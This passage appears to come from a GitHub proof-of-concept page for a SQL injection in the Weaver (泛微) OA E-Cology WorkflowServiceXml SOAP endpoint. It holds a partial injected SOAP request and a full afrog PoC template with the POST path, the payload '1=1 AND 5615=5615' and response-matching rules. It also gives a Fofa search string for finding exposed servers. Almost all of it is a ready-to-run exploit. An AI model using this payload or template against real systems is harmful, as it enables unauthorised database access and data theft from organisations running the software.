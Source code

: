 ```
        <web:in4>
            <web:string>1=1 AND 5615=5615</web:string>
        </web:in4>
      </web:getHendledWorkflowRequestList>
  </soapenv:Body>
</soapenv:Envelope>
```  
- afrog poc  
```
id: 泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞

info:
  name: 泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞
  author: wy876
  severity: high
  verified: true
  description: |-
    泛微OA E Cology 接口/services/WorkflowServiceXml 存在SQL注入漏洞，可获取数据库权限，导致数据泄露。
    Fofa: app="泛微-OA（e-cology）"

  reference:
    - https://github.com/wy876/POC/blob/main/泛微OA-E-Cology接口WorkflowServiceXml存在SQL注入漏洞.md
  tags: 泛微e-cology
  created: 2024/07/13


rules:
  r0:
    request:
      method: POST
      path: /services/WorkflowServiceXml
      headers:
        Content-Type: text/xml
      body: |
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="http://webservices.workflow.weaver"> <soapenv:Header/>
        <soapenv:Body>
        <web:getHendledWorkflowRequestList>
        <web:in0>1</web:in0>
        <web:in1>1</web:in1>
        <web:in2>1</web:in2>
        <web:in3>1</web:in3>
        <web:in4>
            <web:string>1=1 AND 5615=5615</web:string>
        </web:in4>
        </web:getHendledWorkflowRequestList>
        </soapenv:Body>
        </soapenv:Envelope>
    expression: response.status == 200 && response.body.bcontains(b'WorkflowRequestInfo') && response.body.bcontains(b'workflowName') && response.body.bcontains(b'lastOperatorName')

expression: r0()
```  
  